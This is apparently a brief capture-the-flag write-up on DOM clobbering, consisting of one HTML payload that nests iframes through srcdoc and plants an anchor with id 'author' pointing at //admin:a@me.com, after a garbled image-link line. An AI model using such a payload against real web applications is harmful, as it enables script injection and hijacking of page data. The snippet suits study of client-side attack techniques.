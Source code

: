# Writeup

DOM Clobbering

```html
<iframe name=rows srcdoc=" <iframe name=rows srcdoc=&quot; <a id='author' href='//admin:a@me.com'></a> &quot;></iframe> "></iframe><script>
```
